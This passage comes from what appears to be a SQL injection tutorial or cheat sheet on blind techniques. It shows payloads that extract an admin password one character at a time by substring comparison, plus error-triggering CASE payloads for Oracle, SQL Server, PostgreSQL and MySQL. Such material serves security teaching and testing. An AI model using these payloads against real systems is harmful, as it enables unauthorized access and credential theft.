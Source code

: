 ```sql
AND SUBSTRING(({{ injected-query SELECT Password FROM Users WHERE Username = 'admin' }}), {{ char-index 1 }}, 1) > 'm'
AND SUBSTRING(({{ injected-query SELECT Password FROM Users WHERE Username = 'admin' }}), {{ char-index 1 }}, 1) > 't'
AND SUBSTRING(({{ injected-query SELECT Password FROM Users WHERE Username = 'admin' }}), {{ char-index 1 }}, 1) = 's'
```

</template>
</smart-tabs>

### Conditional responses via SQL errors

Maybe different Boolean conditions make no difference, but it is often possible to induce the application to return conditional responses by triggering SQL errors conditionally, depending on an injected condition.

An example of this behaviour is shown by the following two payloads:

```
xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a
xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a
```

<smart-tabs variable="dbms" :tabs="{'oracle': 'Oracle', 'microsoft': 'Microsoft', 'pgsql': 'PostgreSQL', 'mysql': 'MySQL'}">
<template v-slot:oracle>

```sql
SELECT CASE WHEN ({{ evaluated-condition Username = 'admin' AND SUBSTRING(Password, 1, 1) > 'm' }}) THEN to_char(1/0) ELSE {{ else-value NULL }} END FROM dual
```

</template>
<template v-slot:microsoft>

```sql
SELECT CASE WHEN ({{ evaluated-condition Username = 'admin' AND SUBSTRING(Password, 1, 1) > 'm' }}) THEN 1/0 ELSE {{ else-value NULL }} END
```

</template>
<template v-slot:pgsql>

```sql
SELECT CASE WHEN ({{ evaluated-condition Username = 'admin' AND SUBSTRING(Password, 1, 1) > 'm' }}) THEN cast(1/0 as text) ELSE {{ else-value NULL }} END
```

</template>
<template v-slot:mysql>

```sql
SELECT IF({{ evaluated-condition Username = 'admin' AND SUBSTRING(Password, 1, 1) > 'm' }},(SELECT table_name FROM information_schema.tables), {{ else-value 'a' }})
```

</template>
</smart-tabs>
